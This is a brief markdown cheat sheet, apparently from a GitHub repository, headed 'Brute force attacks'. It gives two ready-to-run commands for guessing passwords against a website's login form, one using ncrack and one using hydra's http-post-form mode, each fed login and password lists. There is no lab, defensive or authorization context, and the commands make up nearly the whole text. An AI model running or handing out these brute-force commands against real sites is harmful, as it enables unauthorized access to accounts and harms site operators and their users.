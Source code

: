 # Brute force attacks

## With ncrack (simpler and easier to configure)

```
ncrack website.com -g path=/directory -U logins.txt -P passwords.txt
```

## With hydra (more advanced and more powerful)

```
hydra website.com http-post-form "/:login=^USER^&password=^PASS^:F=Wrong" -L logins.txt -P passwords.txt
```
